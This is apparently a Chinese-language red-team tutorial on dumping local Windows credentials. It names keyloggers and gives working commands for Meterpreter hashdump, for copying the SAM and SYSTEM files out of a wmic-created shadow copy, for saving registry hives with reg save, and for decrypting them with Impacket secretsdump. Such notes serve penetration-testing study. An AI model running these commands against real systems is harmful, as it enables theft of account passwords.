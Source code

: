从本地获取windows凭据有两个主要方式：
- 键盘记录器
- SAM

### 键盘记录器：
介绍：
键盘记录器是一种软件或硬件设备，用于监控和记录键盘打字活动。键盘记录器最初是为合法目的而设计的，例如软件开发或家长控制的反馈。但是，它们可能会被滥用来窃取数据。作为红队成员，在繁忙的交互式环境中通过键盘记录器查找凭据是一个不错的选择。如果我们知道受感染的目标有一个登录用户，我们可以使用 Metasploit 框架或其他工具执行键盘记录。(详细查看利用AD任务5)

### 安全帐户管理器(SAM):

SAM 是一个 Microsoft Windows 数据库，其中包含用户名和密码等本地帐户信息。SAM 数据库以加密格式存储这些详细信息，以使其更难检索。此外，在 Windows 操作系统运行时，任何用户都无法读取和访问它。但是，有各种方法和攻击可以转储 SAM 数据库的内容


**MSF的hashdump:**

第一种方法是使用内置的 Metasploit 框架功能 hashdump 来获取 SAM 数据库内容的副本。Metasploit 框架使用内存中代码注入到LSASS.exe进程来转储复制哈希。

```
meterpreter >get uid
...
meterpreter >hashdump
...
```

**卷影复制服务:**

另一种方法使用 Microsoft 卷影复制服务，该服务有助于在应用程序在卷上读取/写入时执行卷备份。
更具体地说，我们将使用 wmic 创建卷影副本。这必须通过具有管理员权限的命令提示符完成，如下所示：
- 使用管理员权限运行标准cmd.exe提示符。
- 执行 wmic 命令以创建 C： 驱动器的复制影子
- 验证步骤 2 中的创建是否可用。
- 从我们在步骤 2 中创建的卷中复制 SAM 数据库

使用WMIC创建卷C的卷影副本:
```
wmic shadowcopy call create Volume='C:\'
```
成功执行该命令后，让我们使用 Volume Shadow Copy Service 管理命令行工具来列出并确认我们具有卷的卷影副本，列出可用的卷影卷:
```
vssadmin list shadows
```

从卷影卷复制SAM和SYSTEM文件：
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
#AND
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
```
然后可以将SAM和system文件传回自己的系统进行破解。

**注册表配置单元:**

保存SAM和system文件：
```
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
#AND
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
```

在本地使用 Impacket SecretsDump 脚本解密 SAM 数据库：
```
python3.9 /opt/impacket/examples/secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
```

